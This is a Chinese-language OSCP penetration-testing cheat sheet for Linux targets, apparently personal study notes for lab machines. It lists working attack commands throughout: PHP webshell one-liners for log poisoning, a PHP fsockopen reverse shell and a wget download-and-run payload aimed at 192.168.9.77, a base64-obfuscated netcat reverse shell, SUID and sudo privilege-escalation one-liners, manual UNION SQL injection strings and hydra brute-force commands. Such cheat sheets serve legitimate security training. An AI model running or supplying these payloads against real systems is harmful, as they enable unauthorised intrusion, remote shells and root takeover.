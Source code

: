 # OSCP --- Linux
**目录扫描**
1. nikto
2. dirb
  a. dirb http:// IP or URL
  b. dirb http:// IP or URL -X .php,.txt -指定后缀名
3. dirbuster
4. robots.txt文件

**LFI**
1. ssh可访问日志: /var/log/auth.log。用ssh ‘<?php system($_GET[‘csd’]);?>’来上传一句话木马来反弹shell。
2. Nginx的可访问日志位置/var/log/nginx/access.log，用Burp上传一句话木马<?php system($_GET[‘cmd’]);?>
3. Apache access and error logs (/var/log/apache2/access.log and /var/log/apache2/error.log).

**反弹shell**
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
2. php-reverse-shell.php - 修改ip和port

**Wordpress:**
1. wpscan扫描插件 + searchsploit
2. Themes --> Editior --> 找个可以修改的php
3. Plugins -> Add New -> this page

**Drupal**
1. 安装php包(https://www.drupal.org/project/php)
2. 下载好后在Extend下安装PHP模板
3. 安装成功后激活模板
4. 创建php页面来反弹shell

**weevly（IMF靶机）**
1. weevly generate 1234 shell.php
2. weevly http://xxx.xxx.xxx.xxx/.../.../shell.php 1234

**PHPLiteAdmin**
1. 在test_db.php下创建一个数据库，然后再创建一个表格，上传php代码，即可被执行
2. 创建了一个csd的数据库，再在数据库下传教一个表格。然后在value下写入php代码。这里先采用了exp中的<?php phpinfo()?>进行尝试。写入成功后，用之前的文件包含漏洞访问csd.php(文件具体位置在数据库中可见)。
3. 先在kali机上进入/var/www/html目录，创建shell.txt文件。然后在shell.txt文件内写入<?php $sock=fsockopen("192.168.9.77",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
4. 修改Default Value，设置为<?php system("wget 192.168.9.77/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

**Symfony**
1. https://infosecwriteups.com/how-i-was-able-to-find-multiple-vulnerabilities-of-a-symfony-web-framework-web-application-2b82cd5de144
2. https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py

**哈希加密**
1. john工具：
  a. john --wordlist=xxx password.txt (指定字典)
  b. john password.txt --show
2. Crackstation：https://crackstation.net/
3. echo “xxxxx” | base64 -d
4. Argon2加密（Typo3）

**提权**
1. 查找suid
  a. find / -perm -u=s -type f 2>/dev/null
  b. find / -user root -perm -4000 -print 2>/dev/null
  c. find / -user root -perm -4000 -exec ls -ldb {} \
2. sudo权限
  a. sudo -l查看权限
  b. 查看相关sudo命令的用法
3. vim提权
  a. :set shell=/bin/bash
  b. :shell
4. nmap提权
  a. 交互式（有版本限制）
    1) --interactive进入交互式界面，
    2) !sh
  b. 利用脚本
    1) echo 'os.execute("/bin/sh")' > getShell
    2) sudo nmap --script=getShell
5. find提权
  a. find . -exec /bin/sh -p \; -quit
  b. find test -exec /bin/bash \;
6. gdb提权
  a. gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
7. 利用定时任务crontab来提权
  a. 找到系统中会被root定时执行的脚本
  b. echo "Payload" > 脚本
  c. Kali开启监听，等待root执行反弹shell
8. 环境变量提权（Escalate_Linux）
  a. 查看可用脚本
  b. cd /tmp
  c. 根据要求写文件（例如echo “nc - c /bin/bash ” > ls）
  d. chmod 777 ls
  e. export PATH=/tmp:$PATH
  f. 执行脚本
9. Python提权：
  a. python -c ‘import os; os.system(“/bin/sh”)’
10. zip提权：
  a. 进入tmp目录，创建一个exploit文件
  b. sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
11. 内核提权
  a. uname -a查看内核版本号
  b. searchsploit查找相关exp

**命令执行**
1. 绕过：
 a. 用单引号（例如c’a’t）
 b. echo + base64加密绕过：
 c. echo bmMgLWMgL2Jpbi9iYXNoIDE5Mi4xNjguOS43NyAxMjM0 |base64 -d | bash

**Web扫描**
1. joomla - joomscan
2. Wordiness - wpscan

**SQL注入**
1. sqlmap
  a. 一般模式：sqlmap - u “xxx” --dbs ---> sqlmap -u “xxx” -D x --tables ---> sqlmap -u “xxx” -D x -T x --columns ---> sqlmap -u “xxx” -D x -T x -C “x,y” --dump-all
  b. 带有session的：
      用Burp截包保存为本地文件（例如sql.txt）
      sqlmap -r sql.txt --dbs .... or sqlmap --cookie ID
2. 手工sql注入
  a. 用 ’ 或者 ’ 1=1 or(and) #(-- ) + ’ 1=2 or(and) #(-- )来判断是否有SQL注入
  b. unionselect语句
      1) Order by + 数字
      2) 若Order by 不成功则从1开始逐个尝试
      3) ' union select group_concat(schema_name),2,3,4,5,6 from information_schema.schemata#
      4) ' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="xxx"# - 数据库名
      5) ' union select group_concat(table_name),2,3,4,5,6 from xxx.tables where table_schema="yyy"# - 表名
      6) ' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name="zzz" - 表的内容
      7) ' union select group_concat(具体信息),2,3,4,5,6 from Staff.StaffDetails#

**爆破**
1. Burpsuite
2. rockyou.txt
3. cewl http://IP(URL) -w xxx.txt
4. hydra 
  hydra: hydra -L user.txt -P password.txt xxx.xxx.xxx.xxx(ip) ssh
  hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.0.36 http-post-form '/monitoring/index.php:username=^USER^&PASSWORD=^PASS^&Login=Login:Sign In'
5. 模糊测试爆破目录wfuzz（psl1靶机里出现）
  wfuzz -c -w wordlist --hc 404 --hl 6(过滤) http://IP
6. fcrackzip工具尝试爆破压缩包密码
7. stegcracker可以爆破图片信息
8. steghide -u -D -p /usr/share/wordlist/rockyou.txt <filename>爆破图片隐写

**信息搜集**
1. 网页：	
2. 关键字
3. 源码
4. js脚本
5. OS
6. /home/目录下
7. /var/www/下

**杂项**
1. gpg解密(靶机Bob)
2. 跳转域名没法解析：修改/etc/hosts
3. 交互式界面python -c 'import pty; pty.spawn("/bin/bash")' 
4. 端口敲击开放filtered - /etc/knockd.conf
    nc IP port
    Nmap -r -p ports IP 
5. 图片
    base64解密生成图片（Fristileaks靶机里出现）
    下载下来查看备用信息
6. getcap -r / 2>/dev/null查看可用的capability
7. ssh -i id_rsa user@IP（ssh带密钥登录）
8. string读取二进制文件
9. crunch生成字典（TommyBoy靶机）
10。 file code（w34kn3ss）查看文件运用语言
11. uncompyle2/6 - python反编译
12. 查找特殊权限getcap -r / 2>/dev/null
13. Flask = Python + Werkzeug
14. Gobuster vhost 扫描域名。

**Mysql**
1. update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin'; root用户修改密码。



















